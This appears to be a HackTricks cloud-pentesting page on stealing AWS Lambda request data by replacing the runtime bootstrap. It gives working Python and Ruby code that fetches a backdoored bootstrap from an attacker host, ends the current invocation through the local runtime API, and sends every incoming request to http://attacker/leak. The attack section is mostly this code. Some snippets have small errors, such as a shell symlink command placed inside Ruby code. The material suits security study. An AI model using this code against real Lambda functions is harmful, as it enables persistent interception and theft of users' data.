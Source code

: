 # AWS - Steal Lambda Requests

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Introduction <a href="#python-runtime" id="python-runtime"></a>

This attack supposes that you have some kind of **access over a running Lambda**.\
Also, something important to note is that **Lambda invocations aren’t completely separated from each other but are isolated**. They could run, though not simultaneously, in the same execution environment. With that in mind, let’s start dissecting that environment.

### Isolation

Lambda isolation uses thi cgroups:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

As the prefix 'sandbox' didn’t match any common container engine(docker, podman, LXD, rkt), it could be a proprietary container engine, which could be internally using an open source container runtime like [runC](https://github.com/opencontainers/runc).

### How Lambdas work  <a href="#python-runtime" id="python-runtime"></a>

This appears to be the python Lambda architecture:

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

1. A process outside the container, referred to as the "**slicer"** in the init binary, sends invocation events to the **init** process via shared memory.
2. The init process sets up an HTTP server on port 9001 (hard-coded), with several exposed endpoints:
   1. `/2018-06-01/runtime/invocation/`**`next`** – get the next invocation event
   2. `/2018-06-01/runtime/invocation/{invoke-id}/`**`response`** – return the handler response for the invoke
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – return an execution error
3.  In `bootstrap.py` the following loop **queries the init process for a new event**, and then **calls the user’s function** to handle it (here, the request handler you uploaded runs).\


    <figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
4. The **handler response is then sent back to the init process** through one of the following endpoints:
   1. `/{invoke-id}/response` – if the user handler executed successfully
   2. `/{invoke-id}/error` – if an exception was raised during the handling of the invoke

## Technique Summary <a href="#python-runtime" id="python-runtime"></a>

It's possible to **substitute the bootstrap script** with malicious code to be able to **intercept data** sent to the Lambda function.\
Note tha**t other engines in other languages** have another **bootstrap** **script** written in that language, so this can be done **also in other lambdas using other languages**, not only in python.

## Python <a href="#python-runtime" id="python-runtime"></a>

From the lambda, download **`/var/runtime/bootstrap.py`**  (or just spin up **your own lambda** and get it) and add the backdoor that will be leaking all the data sent to Lambda. You just need to add a couple of lines such as:

<figure><img src="../../../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

### Replacing Runtime

Now with the new **`boostrap.py` created**, it's possible to **download** it, **end the current lambda** **invocation** and run it to **replace** the legit one:

```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request('GET', 'http://attacker.com/bootstrap.py')
with open('/dev/shm/bootstrap.py', 'w') as f:
    f.write(r.data.decode('utf-8'))

# Get invocation ID and end it
req = request("GET", "http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
request("POST", f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", body="null", headers={"Content-Type":"application/x-www-form-urlencoded"})

# Start your bootstrap.py
os.system("python3 /dev/shm/bootstrap.py")
```

Or you could also use [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py), which will end the invocation as done previously, run the new bootstrap and exfiltrate the information.

{% hint style="warning" %}
If a lambda function is not used for 5-15 minutes it will be shut down, and all the changes will be lost the next time it's invoked.
{% endhint %}

## Ruby Runtime <a href="#ruby-runtime" id="ruby-runtime"></a>

In ruby, the file you want to backdoor is **`/var/runtime/lib/runtime.rb`** file (get it from the system or running your own lambda).

Adding a backdoor is as simple as done in the python version:

```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin 
    context = lambdaContext.new(raw_request)
    uri = URI('http://attacker:80/leak')
    Net::HTTP.post(uri,JSON.generate(request))
    [...]
```

Then, you just need to do what you did in the python version with just a change:

* **Download the backdoor in a directory**
* **Symlink** `/var/runtime/lib/*` with the directory where the backdoor is
* Finish the current lambda invocation

```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
